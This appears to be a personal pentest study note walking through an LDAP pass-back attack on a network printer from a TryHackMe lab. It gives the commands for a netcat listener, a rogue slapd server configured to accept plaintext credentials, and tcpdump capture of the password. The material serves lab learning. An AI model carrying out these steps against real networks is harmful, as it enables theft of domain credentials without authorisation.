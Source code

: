 # Passback Attacks

## LDAP

- Imagine we have a printer in the network. In the example on tryhackme we have access to the setting page. It has a login page so we can alter the Server IP and put ours instead  
![login page](../.res/2022-07-27-16-27-49.png) 
- `nc -lvp 389`
- We get a connection back when sending the form. The console shows `supportedCapabilitiesresponse`
- As mentioned in the room:  
"The `supportedCapabilitiesresponse` tells us we have a problem. Essentially, before the printer sends over the credentials, it is trying to negotiate the LDAP authentication method details. It will use this negotiation to select the most secure authentication method that both the printer and the LDAP server support. If the authentication method is too secure, the credentials will not be transmitted in cleartext. With some authentication methods, the credentials will not be transmitted over the network at all! So we can't just use normal Netcat to harvest the credentials. We will need to create a rogue LDAP server and configure it insecurely to ensure the credentials are sent in plaintext."

- `sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`
- `sudo dpkg-reconfigure -p low slapd` to configure the LDAP server
- We then have to make a file `olcSaslSecProps.ldif`

```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

- `sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`

- `sudo tcpdump -SX -i eth0 tcp port 389` (we need to replace eth0 with the appropriate interface)
- And we should get the password, just like in the example from tryhackme :  
![password](../.res/2022-09-03-20-54-04.png)

{% embed url="https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/" %} A Pen Tester’s Guide to Printer Hacking {% endembed %}

## Resources

{% embed url="https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/" %} A Pen Tester’s Guide to Printer Hacking {% endembed %}
{% embed url="https://tryhackme.com/room/breachingad" %} Breaching AD - TryHackMe{% endembed %}